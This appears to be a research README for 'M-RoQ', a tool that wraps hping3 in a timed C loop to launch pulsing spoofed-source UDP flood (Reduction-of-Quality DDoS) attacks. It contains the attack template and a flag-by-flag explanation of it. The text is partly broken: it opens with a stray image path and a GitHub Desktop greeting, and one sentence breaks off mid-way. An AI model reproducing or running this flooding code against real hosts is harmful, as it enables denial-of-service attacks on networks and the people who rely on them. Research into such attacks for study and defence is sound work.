# Welcome to GitHub Desktop!

The M-RoQ (Manipulated-RoQ) software was developed to manipulates the flooding of the Hping3 software. The aim is that the      

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <time.h>
#include <unistd.h>

main()
{
	while(<time in seconds>)
	{
		system("timeout <time in miliseconds> hping3 --rand-source --flood -2 <dst IP> -p <dst PORT> -d <packet lenght> &");
		usleep(<time in miliseconds>);
        time in seconds++;
	}
    system("killall -9 hping3");
}

Where <time in seconds> represents the total time that RoQ attack will act. The timeout command represents the total time in miliseconds that the attack traffic will punish the victim. The hping3 is the flooding DDoS software that will generate the traffic. The --rand-source is the option related to the IP manipulation. the --flood option is related the huge amount o data traffic to sent. the -2 option means that the message sent is UDP. The <dst IP> and <dst PORT> options means the IP target and PORT targe, respectively. The <packet lenght> option means the lenght of the packet sent.

Finally, the system("killall -9 hping3") command kills the hping3 software to stop the traffic process. 

Authors:
Vinícius de Miranda Rios
Pedro R. M. Inácio 
Damien Magoni
Mário M. Freire